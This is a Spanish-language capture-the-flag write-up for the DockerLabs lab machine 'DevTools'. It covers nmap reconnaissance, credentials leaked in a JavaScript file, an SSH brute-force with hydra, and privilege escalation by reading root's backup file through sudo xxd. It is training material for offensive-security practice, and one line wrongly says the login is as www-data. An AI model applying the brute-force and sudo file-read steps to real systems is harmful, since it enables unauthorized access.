 #MAQUINA #DOCKERLABS #MEDIO 

<hr>

# RECONOCIMIENTO

Vamos a resolver **DevTools** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:38 CET
Initiating ARP Ping Scan at 15:38
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:38, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:38
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:38, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-17 15:38:16 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:39 CET
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:39 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al entrar nos pide autenticarnos, como no logro loggearme, voy a inspeccionar el código:

```shell
curl -s -X GET "http://172.17.0.2/"                                                            
<!DOCTYPE html>
<html lang="es">
<head>
    <script src="backupp.js" defer></script>


```

Vemos un archivo, y al meternos :
```bash
const usuario = "chocolate";
const contrasena = "chocolate"; // Antigua contraseÃ±a baluleroh

const solicitarAutenticacion = () => {
    const credenciales = prompt("Ingrese las credenciales en el formato usuario:contraseÃ±a:");

    if (credenciales) {
        const [entradaUsuario, entradaContrasena] = credenciales.split(":");

        if (entradaUsuario === usuario && entradaContrasena === contrasena) {
            alert("AutenticaciÃ³n exitosa. Â¡Bienvenido!");
        } else {
            alert("AutenticaciÃ³n fallida. IntÃ©ntelo de nuevo.");
            solicitarAutenticacion(); // Reintentar autenticaciÃ³n
        }
    } else {
        alert("Debe ingresar las credenciales.");
        solicitarAutenticacion();
    }
};

solicitarAutenticacion();
```

**chocolate:chocolate**

Nos dice que la antigua contra era **baluleroh**.

# EXPLOTACION

Usamos **hydra**:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p baluleroh ssh://172.17.0.2 -t 64 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-17 15:58:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: baluleroh
```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
carlos@2fab6fa37d5c:~$ sudo -l
Matching Defaults entries for carlos on 2fab6fa37d5c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on 2fab6fa37d5c:
    (ALL) NOPASSWD: /usr/bin/ping
    (ALL) NOPASSWD: /usr/bin/xxd


```

Vemos **xxd** con permisos SUDO  :

   ```bash
carlos@2fab6fa37d5c:~$ ls
nota.txt
carlos@2fab6fa37d5c:~$ sudo xxd nota.txt | xxd -r
Backup en data.bak dentro del directorio de root
carlos@2fab6fa37d5c:~$ sudo xxd /root/data.bak | xxd -r
root:balulerito
carlos@2fab6fa37d5c:~$ su root
Password: 
root@2fab6fa37d5c:/home/carlos# whoami
root
root@2fab6fa37d5c:/home/carlos# 

```

**YA ESTAMOS COMO ROOT.**